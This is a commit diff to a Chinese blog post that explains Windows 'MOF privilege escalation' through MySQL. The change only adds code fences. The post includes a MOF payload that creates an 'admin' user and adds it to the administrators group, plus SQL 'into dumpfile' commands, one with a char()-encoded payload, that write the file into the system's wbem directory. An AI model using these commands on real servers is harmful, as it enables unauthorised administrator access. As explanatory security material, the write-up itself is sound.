

Before and after one commit to xingruidong95/xingruidong95.github.io, a Jekyll site: the page built from _posts/2018-06-20-mof提权.md, in a window 1280 px wide and 1400 px high, scrolled down 847 px. Shown: the whole window at 89% size, without its empty margins (105-1173 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
Update 2018-06-20-mof提权.md

````diff
--- a/_posts/2018-06-20-mof提权.md
+++ b/_posts/2018-06-20-mof提权.md
@@ -28,7 +28,8 @@ mof是Windows系统的一个文件，位于c:\windows\system32\wbem\mof\nullevt.
 
 
 ## 利用代码
-> # pragma namespace("\\.\root\subscription")
+```
+# pragma namespace("\\.\root\subscription")
 
 instance of **EventFilter as $EventFilter{    EventNamespace = "Root\Cimv2";    Name  = "filtP2";    Query = "Select \* From **InstanceModificationEvent "
             "Where TargetInstance Isa \"Win32_LocalTime\" "
@@ -49,6 +50,7 @@ instance of __FilterToConsumerBinding
     Consumer   = $Consumer;
     Filter = $EventFilter;
 };
+```
 其中的关键就在于第14行的“net.exe user admin admin /add”，这句是用来创建一个用户名为admin，密码为admin的用户，创建成功后，再将这句命令改为
 “net.exe localgroup administrators admin /add”后，再次上传，达到创建admin用户并将其加入administrators组的目的。
 
@@ -57,12 +59,14 @@ instance of __FilterToConsumerBinding
 ### 拥有网站webshell时
 如果已经得到了该网站的webshell，那么可以将nullevt.mof文件上传到c盘的的可写目录xxx，然后执行下面的SQL命令即可
 >select load_file('c:\xxx\nullevt.mof') into dumpfile'c:\windows\system32\wbem\mof\nullevt.mof';
+
 这里可以看下dumpfile与outfile的区别，对于outfile来说，into outfile会自动添加换行符等操作，适用于文本文件，因为会产生冗余数据，会导致我们的命令执行
 失败。而into dumpfile是将文件以二进制的方式写入，因此这里我们用into dumpfile。
 
 ### 未拥有网站webshell
 对于没有网站webshell的情况，我们可以采取连接数据库后直接写入的方式，将代码转换为ASCII码后，直接传入。
->select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,
+```
+select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,
 115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,
 116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,
 115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,
@@ -82,6 +86,8 @@ instance of __FilterToConsumerBinding
 110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,
 13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,
 110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile  'c:\windows\system32\wbem\mof\nullevt.mof';
+```
+
 
 ## 总结
 emmmmm，这估计现在应该很少可以成功了，利用的条件都很落后了，感觉应该不会存在了...我在自己的虚拟机里面复现并没有成功，尴尬，我的虚拟机那个
````
